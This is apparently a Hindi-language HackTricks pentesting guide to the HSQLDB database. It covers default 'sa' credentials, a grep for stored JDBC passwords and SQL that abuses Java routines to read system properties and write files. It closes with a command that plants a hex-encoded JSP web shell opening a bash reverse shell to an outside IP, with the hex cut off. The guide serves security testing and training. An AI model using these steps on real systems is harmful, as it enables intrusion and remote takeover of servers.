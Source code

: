 {{#include ../banners/hacktricks-training.md}}

# मूल जानकारी

**HSQLDB \([HyperSQL DataBase](http://hsqldb.org/)\)** जावा में लिखी गई प्रमुख SQL संबंधपरक डेटाबेस प्रणाली है। यह एक छोटा, तेज़ मल्टीथ्रेडेड और लेन-देन करने वाला डेटाबेस इंजन प्रदान करता है जिसमें इन-मेमोरी और डिस्क-आधारित तालिकाएँ होती हैं और यह एम्बेडेड और सर्वर मोड का समर्थन करता है।

**डिफ़ॉल्ट पोर्ट:** 9001
```text
9001/tcp open  jdbc      HSQLDB JDBC (Network Compatibility Version 2.3.4.0)
```
# जानकारी

### डिफ़ॉल्ट सेटिंग्स

ध्यान दें कि डिफ़ॉल्ट रूप से यह सेवा संभवतः मेमोरी में चल रही है या लोकलहोस्ट से बंधी हुई है। यदि आपने इसे पाया है, तो आपने संभवतः किसी अन्य सेवा का शोषण किया है और विशेषाधिकार बढ़ाने की कोशिश कर रहे हैं।

डिफ़ॉल्ट क्रेडेंशियल आमतौर पर `sa` होते हैं जिनका पासवर्ड खाली होता है।

यदि आपने किसी अन्य सेवा का शोषण किया है, तो संभावित क्रेडेंशियल्स के लिए खोजें।
```text
grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
```
डेटाबेस का नाम ध्यान से नोट करें - आपको इसे कनेक्ट करने के लिए आवश्यकता होगी।

# जानकारी इकट्ठा करना

DB इंस्टेंस से कनेक्ट करें [HSQLDB डाउनलोड करके](https://sourceforge.net/projects/hsqldb/files/) और `hsqldb/lib/hsqldb.jar` को निकालें। GUI ऐप \(eww\) को `java -jar hsqldb.jar` का उपयोग करके चलाएं और खोजे गए/कमजोर क्रेडेंशियल्स का उपयोग करके इंस्टेंस से कनेक्ट करें।

ध्यान दें कि कनेक्शन URL एक दूरस्थ सिस्टम के लिए इस तरह दिखेगा: `jdbc:hsqldb:hsql://ip/DBNAME`।

# तरकीबें

## जावा भाषा रूटीन

हम HSQLDB से जावा भाषा रूटीन का उपयोग करके एक जावा क्लास के स्थिर तरीकों को कॉल कर सकते हैं। ध्यान दें कि कॉल की गई क्लास को एप्लिकेशन के क्लासपाथ में होना चाहिए।

JRTs `functions` या `procedures` हो सकते हैं। यदि जावा विधि एक या अधिक SQL-संगत प्राइमिटिव वेरिएबल लौटाती है, तो फ़ंक्शंस को SQL स्टेटमेंट के माध्यम से कॉल किया जा सकता है। इन्हें `VALUES` स्टेटमेंट का उपयोग करके लागू किया जाता है।

यदि जावा विधि जिसे हम कॉल करना चाहते हैं, void लौटाती है, तो हमें `CALL` स्टेटमेंट के साथ लागू की गई एक प्रक्रिया का उपयोग करना होगा।

## जावा सिस्टम प्रॉपर्टीज़ पढ़ना

फंक्शन बनाएं:
```text
CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
कार्यवाही फ़ंक्शन:
```text
VALUES(getsystemproperty('user.name'))
```
आप [यहाँ सिस्टम प्रॉपर्टीज़ की सूची](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html) पा सकते हैं।

## फ़ाइल में सामग्री लिखें

आप `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` जावा गैजेट का उपयोग कर सकते हैं जो JDK में स्थित है \(जो एप्लिकेशन के क्लास पाथ में ऑटो लोड होता है\) कस्टम प्रक्रिया के माध्यम से डिस्क पर हेक्स-कोडेड आइटम लिखने के लिए। **1024 बाइट्स का अधिकतम आकार नोट करें**।

प्रक्रिया बनाएं:
```text
CREATE PROCEDURE writetofile(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```
प्रक्रिया निष्पादित करें:
```text
call writetofile('/path/ROOT/shell.jsp', cast ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3131392[...]' AS VARBINARY(1024)))
```
{{#include ../banners/hacktricks-training.md}}
